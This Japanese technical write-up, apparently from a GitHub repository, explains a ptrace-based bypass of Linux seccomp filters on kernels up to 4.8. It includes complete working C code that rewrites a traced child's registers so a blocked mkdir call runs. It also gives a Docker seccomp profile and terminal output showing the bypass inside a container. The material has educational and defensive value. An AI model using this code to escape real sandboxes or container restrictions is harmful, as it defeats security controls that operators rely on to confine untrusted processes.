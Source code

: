 # seccomp のバイパス

seccomp は特定のシステムコール呼び出しを制限する機構ですが、 **Linux Kernel 4.8 まで** は ptrace を使うことでバイパスすることができます。  
これは ptrace トレーサに通知される前（システムコールが呼び出されて実行される前）に seccomp フィルタが適用されるため、seccomp によって検査された後のレジスタを変更することで、制限されているシステムコールを呼び出すことができるという仕組みです。

具体的な手順としては次の通りです。

1. `fork(2)` で子プロセスで禁止されているシステムコールを実行し、親プロセス側でそのシステムコールの監視をする
2. システムコールが呼ばれたら別のシステムコールを呼び出すようにレジスタを書き換える
3. そのシステムコールが呼び出されたら、レジスタ状態を元に戻すことで禁止されたシステムコールを実行できる

コードにすると次の通りです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <unistd.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <sys/signal.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <sys/fcntl.h>
#include <syscall.h>


void die (const char *msg)
{
  perror(msg);
  exit(errno);
}

void attack()
{
  int rc;
  
  // mkdir("dir", 0777);
  syscall(SYS_getpid, SYS_mkdir, "dir", 0777); // 引数部分に SYS_mkdir とその引数を与えておく
}

int main()
{
  int pid;
  struct user_regs_struct regs;
  switch( (pid = fork()) ) {
    case -1:  die("Failed fork");
    case 0:
              // 親プロセスにトレースさせる
              ptrace(PTRACE_TRACEME, 0, NULL, NULL);
              kill(getpid(), SIGSTOP);
              attack();
              return 0;
  }

  waitpid(pid, 0, 0);

  while(1) {
    int st;
    // 子プロセスを再開する
    ptrace(PTRACE_SYSCALL, pid, NULL, NULL);
    if (waitpid(pid, &st, __WALL) == -1) {
      break;
    }

    if (!(WIFSTOPPED(st) && WSTOPSIG(st) == SIGTRAP)) {
      break;
    }

    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    printf("orig_rax = %lld\n", regs.orig_rax);

    // syscall-enter-stop であればスキップ
    if (regs.rax != -ENOSYS) {
      continue;
    }

    // レジスタの内容を変更してシステムコールを変更する
    if (regs.orig_rax == SYS_getpid) {
      regs.orig_rax = regs.rdi;
      regs.rdi = regs.rsi;
      regs.rsi = regs.rdx;
      regs.rdx = regs.r10;
      regs.r10 = regs.r8;
      regs.r8 = regs.r9;
      regs.r9 = 0;
      ptrace(PTRACE_SETREGS, pid, NULL, &regs);
    }
  }
  return 0;
}
```

`mkdir(2)` を禁止する seccomp profile を適用したコンテナを作成します。

```sh
$ cat seccomp.json | jq 
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "name": "mkdir",
      "action": "SCMP_ACT_ERRNO",
      "args": []
    }
  ]
}

$ docker run -it --security-opt seccomp:seccomp.json ubuntu:latest bash
```

そのコンテナの中で上記コードを実行すると seccomp の制限をバイパスして `mkdir(2)` を実行することが確認できます。

```sh
[root@d7799354119f tmp]# mkdir dir
mkdir: cannot create directory 'dir': Operation not permitted

[root@d7799354119f tmp]# ./a.out
orig_rax = 39
orig_rax = 83
orig_rax = 231
[root@d75f3506a41d tmp]# ls
a.out  dir
```
